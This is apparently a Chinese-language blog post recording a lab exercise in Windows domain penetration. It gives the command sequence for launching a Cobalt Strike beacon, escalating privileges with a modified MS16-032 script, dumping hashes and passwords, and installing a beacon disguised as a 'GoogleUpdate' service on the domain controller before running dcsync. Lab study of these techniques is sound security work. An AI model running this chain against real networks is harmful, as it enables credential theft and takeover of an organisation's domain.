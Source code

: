 ```yaml
---
layout: post
title:  域渗透学习一
tags: [域渗透]
---
```


# 概述
web选手学习域渗透记录。

## 环境
搭建一个简单的环境，由于刚开始，所以环境拓扑比较简单，但不影响学习。
三台主机：
1. win2016 域控
2. win7 域计算机
3. debian 攻击机
3台机器在同一个内网中，并且可以互相访问，同时未安装杀软等防护软件。

## 流程
1. 在debian上安装cs，同时生成beacon.exe
2. 在win7上运行beacon.exe，上线；
3. 利用ms16-032在win7提权到system权限；
4. 为了简单，在win7上登陆域administrator账号
5. 利用mimikatz抓密码，获得administrator密码
6. 利用cs生成windows服务beacon2.exe
7. 利用administrator权限和sc命令在域控上执行beacon2.exe，域控上线。

## 记录
模拟时，自己在win7运行，实际则可能是社工，钓鱼邮件，水坑，漏洞等。

有win7权限之后，在cs中抓密码，提示权限不够，需要提权。[MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032),下载exe之后，发现是打开system权限的cmd，并没有回连。几次尝试之后使用powershell脚本。不过先修改一下MS16-032.ps1，因为运作之后，发现没有执行。查看脚本发现是函数，所以在最后加一行调用Invoke-MS16-032，同时将333行要执行的程序改为我们的beacon.exe的路径。
```
# 将shell调整为实时交互
sleep 0
# 查看当前目录
pwd
# 上传MS16-032.ps1
upload
# 列目录，查看已经上传成功
ls
# 执行powershell，由于有策略限制，使用命令bypass
shell powershell.exe -ExecutionPolicy Bypass -File MS16-032.ps1
```
得到system权限shell
```
sleep 0
# 获取hash
hashdump
# 获取明文密码，可以获取到当前用户密码
logonpasswords

```
在域控上远程登陆win7，使用administrator账号，提示会断开当前帐户链接，取消登陆。
执行logonpasswords未发现新密码。
在win7机器使用域控administrator登陆。
再次运行logonpasswords，获取administrator密码

```
# 在user权限shell中执行命令，获取域控主机名称
shell net time /domain
# ping ip
shell  ping -n 1 win2016
# spawnas admin权限
spawnas 选择域administrator密码
```
进入administrator权限shell，利用sc创建服务执行，这里有个坑，就是sc命令，=号后面要有空格，导致我好长时间不知道哪里有问题。跑到win7上面去执行，也是报错，刚开始看输出，感觉就是help，一直纳闷。后面仔细看时，发现里面有一句，=号后面要有空格隔开，真是坑。
首先生成windows服务的beacon2.exe
```
# 上传beacon2.exe
upload

shell net use \\win2016\ipc$ "密码" /user:Administrator

shell dir \\win2016\c$

shell copy beacon2.exe \\win2016\c$

shell sc \\win2016 create GoogleUpdate binPath= "C:\beacon2.exe"

shell sc \\win2016 start GoogleUpdate

```
获得域控system权限shell
hashdump获取hash

```
dcsync 域

```

### 引用
1. https://security.tencent.com/index.php/blog/msg/154
2. https://zer1t0.gitlab.io/posts/attacking_ad/



